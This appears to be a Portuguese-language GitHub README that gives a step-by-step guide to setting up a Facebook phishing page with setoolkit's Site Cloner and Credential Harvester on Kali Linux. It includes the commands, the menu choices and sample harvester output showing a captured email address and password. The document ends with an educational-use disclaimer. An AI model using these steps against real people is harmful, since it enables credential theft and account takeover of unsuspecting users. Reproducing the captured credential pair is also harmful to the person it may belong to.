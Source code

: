 # Phishing para captura de senhas do Facebook
Este projeto demonstra como configurar um phishing para capturar credenciais do Facebook utilizando o Kali Linux e a ferramenta setoolkit. 

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

Siga os passos abaixo para configurar um phishing utilizando o setoolkit:

1. Obtenha acesso root:
   ```bash
   sudo su
   ```

2. Inicie o setoolkit:
   ```bash
   setoolkit
   ```

3. Escolha o tipo de ataque: **Social-Engineering Attacks**

4. Selecione o vetor de ataque: **Web Site Attack Vectors**

5. Escolha o método de ataque: **Credential Harvester Attack Method**

6. Selecione o método de ataque: **Site Cloner**

7. Obtenha o endereço IP da sua máquina:
   ```bash
   ifconfig
   ```
   Copie o endereço exibido, geralmente listado em `inet` sob a interface de rede (por exemplo, `eth0` ou `wlan0`).

8. Insira a URL para clonar:
   ```
   http://www.facebook.com
   ```

O setoolkit agora irá clonar o site do Facebook e configurá-lo para capturar credenciais.

## Resultados

- Após configurar o phishing, qualquer credencial inserida no site clonado será registrada e exibida na interface do terminal do setoolkit.

```plaintext
[*] Credential Harvester is running...
[*] Waiting for credentials to be entered...

[*] POSSIBLE USERNAME FIELD FOUND: skip_api_login=
PARAM: signed_next=
PARAM: trynum=1
PARAM: timezone=180
PARAM: lgndim=eyJ3IjoxOTIwLCJoIjoxMDgwLCJhdHdJdG1rYWMw
PARAM: lgnd=112556_dsDS
PARAM: tgnjs=1668021982
[*] POSSIBLE USERNAME FIELD FOUND: email=aninha88@gmail.com
[*] POSSIBLE PASSWORD FIELD FOUND: pass=seguranca2022!
PARAM: prefill_contact_point=
PARAM: prefill_source=
PARAM: prefill_type=1
PARAM: first_prefill_source=

```

## Observação Importante

- Este projeto é apenas para fins educacionais.
- Não use este material para fins ilegais.
- Sempre solicite autorização antes de realizar testes de segurança em sistemas ou redes que não sejam suas.

---

**Disclaimer:** A autora deste projeto não se responsabiliza por qualquer uso indevido ou atividade ilegal realizada com este material.
